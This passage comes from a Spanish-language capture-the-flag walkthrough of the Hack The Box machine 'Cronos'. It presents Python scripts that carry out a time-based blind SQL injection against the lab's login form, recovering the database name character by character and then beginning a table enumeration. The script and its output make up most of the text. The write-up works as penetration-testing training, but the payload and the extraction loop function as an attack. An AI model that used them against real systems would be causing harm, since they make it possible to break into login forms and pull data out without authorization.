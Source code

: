 ```python
    p1 = log.progress("Payload")
    p1.status("Generando el payload")
    p2 = log.progress("Database")
    result = ""
    for i in range(1,10):
        cont = 0
        for c in s:
            sqli = "' or if(substr(database(),%d,1)='%c',sleep(3),1)-- -" % (i, c)
            p1.status("Probando con: %c" % c)
            cont += 1
            if makeRequest(sqli):
                result += c
                p2.status("%s" % result)
                time.sleep(2)
                break
            if cont == 36:
                p1.success("Fin del payload")
                p2.success("El nombre de la base de datos es: %s" % result)
                sys.exit(0)

if __name__ == '__main__':
    payload()
```

```bash
❯ python3 database_name.py
[+] Payload: Fin del payload
[+] Database: El nombre de la base de datos es: admin
```

Tenemos el nombre la base de datos datos que es **admin**, ahora vamos a tratar de obtener las tablas que conforman dicha base y esto lo logramos modificando la consulta, es decir, la variable `sqli` y agregando otro bucle `for`:

```python
#!/usr/bin/python3
#codgin: utf-8

import time, requests, signal, sys
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdefghijklmnopqrstuvwxyz'

def makeRequest(sqli):
    data_post = {
        'username' : '%s' % sqli,
        'password' : 'loquesea'
    }
    time_start = time.time()
    r = requests.post(url, data=data_post)
    time_end = time.time()

    if time_end - time_start > 3:
        return 1

def payload():
    p1 = log.progress("Payload")
```